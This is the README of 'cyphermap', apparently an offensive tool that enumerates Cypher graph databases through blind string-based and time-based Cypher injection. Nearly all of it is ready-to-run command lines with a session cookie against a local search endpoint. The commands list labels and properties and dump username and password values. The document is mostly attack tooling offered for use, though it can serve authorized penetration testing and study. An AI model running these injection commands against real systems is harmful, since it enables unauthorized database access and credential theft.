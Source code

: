 # cyphermap
A tool for mapping cypher databases. It supports string-based blind cypher injection as well as (beta) time-based cypher injection. This is tool is very simplistict but for me it works :) Below are sample use cases.

## Blind string-based enumeration

Listing labels:
```
./cyphermap.py -u "http://127.0.0.1:8001/search" -d "search=a*" -c "session=032bdb4a-9dda-4db7-9b08-6a46df575387;"  -s Sarah -L
```

Listing all properties in relation to label 'user':
```
./cyphermap.py -u "http://127.0.0.1:8001/search" -d "search=a*" -c "session=032bdb4a-9dda-4db7-9b08-6a46df575387;"  -s Sarah -P user
```

Dump key values for property 'username' in relation to label 'user':
```
./cyphermap.py -u "http://127.0.0.1:8001/search" -d "search=a*" -c "session=032bdb4a-9dda-4db7-9b08-6a46df575387;"  -s Sarah -P user -K username
```

Dump key values for properties 'username' and 'password' in relation to label 'user':
```
./cyphermap.py -u "http://127.0.0.1:8001/search" -d "search=a*" -c "session=032bdb4a-9dda-4db7-9b08-6a46df575387;"  -s Sarah -P user -K username,password
```

## Blind time-based enumeration

Listing labels:
```
./cyphermap.py -u "http://127.0.0.1:8001/search" -d "search=a*" -c "session=032bdb4a-9dda-4db7-9b08-6a46df575387;"  -t 1 -L
```

Listing all properties in relation to label 'user':
```
./cyphermap.py -u "http://127.0.0.1:8001/search" -d "search=a*" -c "session=032bdb4a-9dda-4db7-9b08-6a46df575387;"  -t 1 -P user
```

Dump key values for property 'username' in relation to label 'user':
```
./cyphermap.py -u "http://127.0.0.1:8001/search" -d "search=a*" -c "session=032bdb4a-9dda-4db7-9b08-6a46df575387;"  -t 1 -P user -K username
```

Dump key values for properties 'username' and 'password' in relation to label 'user':
```
./cyphermap.py -u "http://127.0.0.1:8001/search" -d "search=a*" -c "session=032bdb4a-9dda-4db7-9b08-6a46df575387;"  -t 1 -P user -K username,password
```
